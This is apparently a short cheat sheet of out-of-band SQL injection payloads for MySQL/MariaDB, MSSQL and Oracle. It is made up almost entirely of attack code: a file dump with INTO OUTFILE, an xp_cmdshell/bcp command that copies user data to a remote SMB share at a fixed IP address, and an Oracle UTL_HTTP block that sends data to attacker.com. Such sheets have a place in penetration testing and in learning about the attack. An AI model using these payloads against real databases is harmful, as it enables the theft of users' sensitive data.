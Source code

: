 # SQL Injection

## Out-of-band Injection
### MySQL and MariaDB
```sql
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```
### Microsoft SQL Server (MSSQL)
```sql
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```
### Oracle
```sql
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```